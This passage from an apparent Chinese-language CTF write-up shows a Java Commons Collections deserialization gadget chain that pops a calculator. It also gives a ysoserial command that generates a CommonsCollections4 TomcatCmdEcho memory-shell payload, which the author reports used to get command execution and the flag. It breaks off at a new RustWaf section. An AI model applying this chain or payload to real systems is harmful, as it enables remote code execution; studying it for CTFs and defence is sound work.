 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.lazyMap(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "key");
        Map expMap = new HashMap();
        expMap.put(tme, "value");
        innerMap.remove("key");
        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.exploit(expMap); // writeObject and readObject
    }
}
```

本地 idea 能弹出计算器, 自建一个 springboot 网站也能弹, 但是用题目给的 jar 运行就弹不了...

绕了一圈又找到了 Y4er 师傅的 ysoserial 修改版

[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)

又试了下 cc4 结合 TomcatCmdEcho 内存马

```bash
java -jar ysoserial-main-1736fa42da-1.jar CommonsCollections4 "CLASS:TomcatCmdEcho" | base64
```

发包时注意把 Content-Type 删掉

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302045474.png)

第二次发送的时候成功执行了命令

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302045093.png)

查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302046074.png)

后来想了想题目机器应该是不出网的, 一开始 cc2 的报错其实对于 rce 来说不影响, 结果后来换了个内存马的 payload 就成功了

不过 java 内存马目前还没怎么研究, 找个时间仔细看一下

## RustWaf

第一眼看到 rust 差点把我唬住了...

代码大体上能看懂是什么意思, 但是具体每一句每一个符号是什么作用就不清楚了, 语法糖有点多

app.js
